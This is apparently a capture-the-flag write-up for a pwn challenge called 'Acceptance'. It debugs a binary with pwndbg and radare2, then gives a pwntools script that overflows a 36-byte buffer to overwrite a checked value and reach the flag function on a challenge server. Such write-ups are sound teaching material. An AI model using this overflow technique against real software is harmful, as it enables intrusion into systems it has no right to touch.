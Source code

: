 # Pwn/Acceptance

![Untitled](Pwn%20Acceptance%201b460d4be1b743738146333882584d35/Untitled.png)

I downloaded the file and checked it with checksec:

![Untitled](Pwn%20Acceptance%201b460d4be1b743738146333882584d35/Untitled%201.png)

I tried to execute the binary:

![Untitled](Pwn%20Acceptance%201b460d4be1b743738146333882584d35/Untitled%202.png)

It takes the input (**abcd**) and outputs a message which is not the flag obviously x)

It felt like debugging time so i fired up **pwndbg:**

![Untitled](Pwn%20Acceptance%201b460d4be1b743738146333882584d35/Untitled%203.png)

Disassembling and looking at the **main** function, i noticed :

- A declared **36(0x24) byte buffer**
- A **read** function call wich obviously handles our input
- A test eax, eax followed by a conditional **je**
- A print_flag function

Using radare2 i was able to better understand the code flow.

![Untitled](Pwn%20Acceptance%201b460d4be1b743738146333882584d35/Untitled%204.png)

The **test eax, eax** and the **je** instruction decides whether we get the **flag** or **“Arg! Why don't you help me :((”.**

It performs a bitwise logical operation between the value in the **eax** register and itself then **je** checks if the result is **0.** If it is then we jump to the **print_flag** function.

I added a breakpoint at this instruction to check the value of eax at the moment of the test.

![Untitled](Pwn%20Acceptance%201b460d4be1b743738146333882584d35/Untitled%205.png)

And passed a 36 bytes cyclic string as input 😈

When the breakpoint hits, RAX’s value seemed familiar ( a cyclic portion).

![Untitled](Pwn%20Acceptance%201b460d4be1b743738146333882584d35/Untitled%206.png)

After identifying the offset, i wrote a python script to send **32** byte string concatenated to **4 \xff bytes** to meet the condition.

![Untitled](Pwn%20Acceptance%201b460d4be1b743738146333882584d35/Untitled%207.png)

```python
from pwn import *

host = "20.169.252.240"
port = "4000"

pattern = cyclic(32)
payload = p32(0xffffffff)

send = pattern+payload
io = remote(host, port)
io.recvuntil('Help him: ')
io.send(send)
print(io.recvall())

"""
offset = cyclic_find(0x61616169)
print(offset)
"""
```

![Untitled](Pwn%20Acceptance%201b460d4be1b743738146333882584d35/Untitled%208.png)

Made By Fckroun with <3